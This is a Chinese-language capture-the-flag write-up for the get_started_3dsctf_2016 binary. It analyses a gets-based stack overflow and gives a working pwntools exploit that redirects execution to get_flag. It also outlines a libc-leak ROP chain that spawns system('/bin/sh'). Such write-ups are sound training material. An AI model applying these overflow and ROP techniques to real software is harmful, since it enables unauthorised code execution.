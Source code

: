 ## 0x001 程序分析

分析main函数

![](1.png)

这个倒也没什么好分析的，程序很短，使用 **get** 接收输入.

## 0x002 漏洞分析

漏洞位于main函数中，在使用 **get** 函数接收输入时，未对输入内容的长度做校验，导致可以使输入内容覆盖到返回地址。

## 0x003 漏洞利用

分析了下程序中的其他函数，发现有个函数 **get_flag**，可以直接读取并打印 **flag.txt** 文件内容。

![](2.png)

使用checksec查看程序

![](3.png)

程序只开启了NX保护，那么这个漏洞利用就很简单，首先通过溢出覆盖返回地址到 **get_flag** 函数处，然后将两个校验的参数传过去，就可以读取并打印 **flag.txt** 的文件内容获取flag了。（当然也可以直接返回到打开 **flag.txt** 文件的地方，直接读取文件内容，这种方式本地可以，在远程中，由于程序栈空间被破坏，程序异常退出，因此无法打印文件内容）

python3 exp如下：
```
from pwn import *

p = process("./get_started_3dsctf_2016")

# payload = 填充 + get_flag + exit() + get_flag参数1 + get_flag参数2
payload = b"A" * 0x38 + p32(0x80489a0) + p32(0x804E6A0) +  p32(0x308cd64f) + p32(0x195719d1)

p.sendline(payload)

print (p.recv())

```

还有另一种方式，就是通过printf泄露函数的真实地址，使用LibcSearcher或DynELF泄露libc中system及/bin/sh的真实地址，然后就可以通过ROP构造执行system("/bin/sh")指令的payload，可直接获取系统权限。